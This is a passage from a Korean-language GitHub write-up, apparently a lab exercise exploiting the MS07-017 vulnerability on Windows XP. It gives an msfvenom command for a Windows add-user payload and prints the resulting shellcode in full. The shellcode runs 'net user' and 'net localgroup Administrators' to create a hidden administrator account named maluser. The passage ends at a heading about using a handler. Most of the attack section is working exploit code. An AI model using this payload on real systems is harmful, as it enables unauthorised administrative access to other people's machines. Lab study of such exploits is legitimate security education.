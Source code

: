 <br>

XP에서 결과 확인

![calc](https://user-images.githubusercontent.com/59737252/207900901-32bb2e66-e2c7-4e7c-867f-c2cdc4086ffd.png)

<br>

### 2. 관리자로 계정 생성

해당 스크립트 실행

```shell
msfvenom --payload windows/adduser --platform windows --format python USER=maluser PASS=P@SSw0rd1!
```

<br>
나온 쉘코드를 05.ms07017_exploit_fixpayload.py에 수정

```python
shellcode =  b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
shellcode += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shellcode += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
shellcode += b"\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20"
shellcode += b"\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x6d\x61\x6c\x75"
shellcode += b"\x73\x65\x72\x20\x50\x40\x53\x53\x77\x30\x72\x64\x31"
shellcode += b"\x21\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74"
shellcode += b"\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41"
shellcode += b"\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73"
shellcode += b"\x20\x6d\x61\x6c\x75\x73\x65\x72\x20\x2f\x41\x44\x44"
shellcode += b"\x00"
```

<br>

결과 확인

![netuser](https://user-images.githubusercontent.com/59737252/207903460-c3e3e753-e024-4b55-bb7f-836fe3e99f15.png)

<br>



### 3. 핸들러 이용
